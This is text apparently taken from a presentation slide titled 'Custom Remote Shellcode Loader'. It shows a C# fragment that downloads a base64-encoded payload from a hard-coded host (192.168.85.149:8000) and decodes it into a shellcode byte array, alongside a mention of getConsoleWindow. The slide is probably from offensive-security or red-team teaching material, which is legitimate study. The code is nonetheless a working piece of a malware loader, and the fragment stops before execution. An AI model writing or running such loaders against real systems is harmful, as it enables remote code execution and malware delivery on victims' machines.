

# Custom Remote Shellcode Loader
Download shellcode remotely into memory
getConsoleWindow
string payloadUrl = "http://192.168.85.149:8000/payload.txt";
byte[] shellCode;
using (WebClient client = new WebClient()) {
string payloadBase64 = client.DownloadString(payloadUrl);
shellCode = Convert.FromBase64String(payloadBase64);